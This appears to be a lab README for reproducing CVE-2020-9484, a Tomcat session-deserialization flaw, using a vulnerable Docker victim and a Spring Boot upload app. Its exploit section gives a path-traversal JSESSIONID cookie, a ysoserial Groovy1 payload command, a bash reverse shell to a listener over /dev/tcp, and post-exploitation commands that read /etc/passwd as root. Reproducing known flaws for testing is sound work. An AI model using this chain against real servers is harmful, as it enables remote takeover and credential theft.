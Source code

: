 # CVE-2020-9484 Tomcat Deserialization

## Description / Overview of Scenario

If a Apache Tomcat Server of certain versions is used configured in a specific way (described below)an attacker can trigger an remote code execution via deserialization with a crafted request.

## victim:

Docker container base from https://github.com/masahiro331/CVE-2020-9484.

uploading-migrated.war is custom webapplication to upload and show files.
groovy-2.3.9.jar is vulnerable webapplication implementing the following flaws.

Apache Tomcat versions 10.0.0-M1 to 10.0.0-M4, 9.0.0.M1 to 9.0.34, 8.5.0 to 8.5.54 and 7.0.0 to 7.0.103
Following things must be true for the vulnerability to be accessible:
* The server is configured to use the PersistenceManager with a FileStore; and
* The PersistenceManager is configured with sessionAttributeValueClassNameFilter="null" (the default unless a SecurityManager is used) or a sufficiently lax filter to allow the attacker provided object to be deserialized; and
* An attacker is able to control the contents and name of a file on the server; and
* The attacker knows the relative file path from the storage location used by FileStore to the file the attacker has control over;
    https://nvd.nist.gov/vuln/detail/CVE-2020-9484

Includes a uploading and downloading web application written with Spring boot (war file).

Steps to reproduce web application file:

* Clone example web application from 
    git clone https://github.com/spring-guides/gs-uploading-files.git
* Follow tutorial at: https://spring.io/guides/gs/uploading-files/

* Change needed things to create war file
    * Add:
      ```xml
        <packaging>war</packaging>
        <dependencies>
            ...
            <dependency>
               <groupId>org.springframework.boot</groupId>
               <artifactId>spring-boot-starter-tomcat</artifactId>
               <scope>provided</scope>
           </dependency>
           ...
        </dependencies>
        ```
        
   *  In Application.java add:
        ```javascript
        import org.springframework.boot.web.servlet.support.SpringBootServletInitializer;

        public class Application extends SpringBootServletInitializer{
            ...
            @Override
            protected SpringApplicationBuilder configure(SpringApplicationBuilder application) {
                 return application.sources(Application.class);
            }
        }
        ```


* Compile in /initial with ./mvnw clean package

* Convert application to be able to run unter Tomcat 10

    * Download migration tool: https://tomcat.apache.org/download-migration.cgi
    * and run in initial/target:
            
            java -jar jakartaee-migration-*-shaded.jar uploading.war uploading-migrated.war 

## normal
Upload and download files from victim.
Uploaded files are txt files filled with random strings, so sizes differ.

## exploit:

Uploading a crafted payload created with ysoserial.jar. 

It is possible to send crafted POST request with JSESSIONID set to a specific path.

The Victim then tries to load a SessionID which is not available.

Because of the PersistanceManager a Session is loaded from the specified path.

E.g: 
    
    Cookie : "JSESSIONID=../../../../upload-dir/executePayload.session"
This session is then deserialized and enables remote code execution as root user.
With ysoserial and the following command a malicious binary is created.

Create payload with reverse shell

    #!/usr/bin/bash
    echo "bash -i >& /dev/tcp/{ip}/4444 0>&1"
    
Run the payload uploaded through the website.

    java -jar ysoserial.jar Groovy1 'bash /tmp/payload.sh' > executePayload.session
    
Start listener and wait for connection from victim.

Send the following to test connection and then make use of root rights.
    
    whoami
    cat /etc/passwd

